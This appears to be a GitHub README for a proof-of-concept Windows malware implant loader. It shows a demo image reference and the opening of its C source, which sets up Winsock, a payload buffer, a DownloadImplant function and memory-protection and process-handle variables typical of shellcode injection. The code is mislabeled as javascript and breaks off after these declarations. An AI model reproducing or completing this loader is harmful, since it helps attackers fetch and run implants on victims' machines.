 # PoC

![PoC](./implant.gif)

# Code

```javascript
#include "Ws2tcpip.h" //Must include this
#include <winsock2.h> //This MUST come before Windows.h to avoid collision with Winsock.h
#include <stdio.h>
#include <Windows.h>


#pragma comment(lib,"ws2_32.lib")
#define PAYLOAD_SIZE 1024

//Function Declaration
void DownloadImplant();

//Global variable payload
unsigned char data[PAYLOAD_SIZE];


int main() {
	
	PVOID alloc;
	DWORD oldProtect = 0;
	HANDLE cr;
	HANDLE hProcess;
```